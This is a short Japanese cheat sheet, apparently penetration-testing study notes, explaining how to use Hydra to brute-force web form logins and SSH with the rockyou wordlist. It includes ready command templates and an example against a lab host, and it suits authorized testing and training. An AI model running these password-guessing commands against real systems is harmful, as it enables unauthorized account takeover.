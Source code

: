 ```
#POST ":"以降は各アプリケーションの認証時のペイロードによって変わる。コマンドをミスると時間を浪費して悲惨なことになる。
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>

#GET 同上
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt [RHOST] http-post-form "[url]:[post]:[error]" -V
```
hydraのオプションを解説

>-l ：ユーザーネームです。-Lでファイルを指定することで複数のユーザーネームを指定することも可能です。  
>-P：パスワードに使用するワードリストです。-pにすることで特定のパスワードを指定することも可能です。  
>[RHOST]：ターゲットのipアドレスもしくはホスト名です。  
>http-post-form or http-form-post：ターゲットのプロトコルを指定します。他にftpやsshなどがあります。  
>"[url]:[post]:[error]"：   
認証ページへのパス、送信するデータ、ログインに失敗したことを判定できる文字列を順番に指定します。 ユーザーネームとパスワードが入る場所は\^USER\^と\^PASS\^に置き換えます。  
burp suiteなどを用いて実行するコマンドを作成します。(動画内のコマンドはエラー文が間違っています。下記コマンドが正しいコマンドです。)
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt machine4 http-post-form "/app/textpattern/textpattern/index.php:lang=en&p_userid=^USER^&p_password=^PASS^&_txp_token=:Could not log in" -V
```
hydraでsshをクラック  
```
hydra -l sean -t 4 -f -V -P /usr/share/wordlists/rockyou.txt 10.11.1.251 ssh    
```
>-f：ログインとパスのペアが見つかったら終了する
>-V：試行ごとにログインとパスを表示
>